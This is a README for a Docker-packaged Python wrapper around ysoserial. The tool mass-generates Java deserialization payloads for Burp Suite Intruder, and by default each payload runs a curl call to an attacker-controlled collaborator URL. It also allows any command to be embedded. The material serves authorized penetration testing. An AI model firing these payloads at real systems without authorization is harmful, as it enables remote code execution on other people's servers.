



# ysoserial-cannon

Python wrapper based for [ysoserial](https://github.com/frohoff/ysoserial) and [ysoserial-wrapper](https://github.com/aludermin/ysoserial-wrapper) to make exploitation of the JAVA [Insecure Deserialization](https://portswigger.net/web-security/deserialization) vulnerabilities, perfect for situations where you need to rapidly test all payloads in bulk and automate the process of firing them off in tools like Burp Suite Intruder to find vulnerabilities fast.

## Requirements
- Pull image:
```shell
docker pull b3xal/ysoserial-cannon
```

## Usage
```
docker run -it --rm b3xal/ysoserial-cannon -h

usage: docker run -it --rm b3xal/ysoserial-cannon [-h] [-c 'COMMAND'] [-gzip] [-b64]

options:
  -h, --help            show this help message and exit
  -c 'COMMAND', --command 'COMMAND'
                        Command to be executed
  -gzip                 Compress the payload with gzip before encoding in base64
  -b64                  Do not url-encode, output base64 string

```

## Walkthrough
Without any parameters given, it will ask for a collaborator url:
```
docker run -it --rm b3xal/ysoserial-cannon   
[*] No payload defined, using curl <collaborator_payload>/[payload_name]
[!]	Enter your collaborator payload:

```
and build every possible payload using command:
```
curl <collaborator_payload>/[payload_name]
```
and then displays them in order to copy the required payloads to your intruder:
```
[+]		Generating Spring1 payload ...
[+]		Generating Spring2 payload ...
[+]		Generating URLDNS payload ...
[+]		Generating Vaadin1 payload ...

[!] There are 26 payloads waiting in your clipboard ...

```



You can use them in an Intruder attack to check which payloads worked:




## Worth reading

By default, the raw payload will be base64 encoded and next url encoded.
There are 2 switches to modify this behaviour:
- `-gzip` - will make the script to compress raw payload before encoding in base64
- `-b64` - will turn off url encoding, you will get a base64 encoded payload

You can also use `-c` or `-command` switch to generate payloads of your choice from the start.
Beware of quotes in commands :)
